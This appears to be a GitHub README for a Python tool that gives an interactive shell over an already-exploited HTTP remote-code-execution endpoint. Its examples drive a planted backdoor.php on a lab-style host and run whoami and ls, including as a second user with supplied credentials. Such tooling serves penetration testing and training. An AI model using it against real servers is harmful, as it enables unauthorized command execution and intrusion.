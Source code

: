 # Http Remote Shell

## Introduction

This tool gives a basic command line interface of an exploited HTTP RCE.

This might be useful if no bind-shell, nor reverse-shell can be setup.

## Usage

```bash
$ python3 ./http_rce.py -h
$ python3 ./http_rce.py --url '<URL>' --http-method GET
$ python3 ./http_rce.py --url '<URL>' --http-method GET --user '<USER>' --pass '<PASS>'
```

## Examples

Running as default user (e.g. `www-data`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?c=' --http-method GET
bash > whoami
www-data

bash > ls
assets
css
index.php
js

bash >
```

Running as another user (e.g. `foo`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?foo1=bar2&cmd=' --http-method GET --user 'foo' --pass 'bar123'
bash > whoami
foo

bash > ls
assets css index.php js

bash >
```

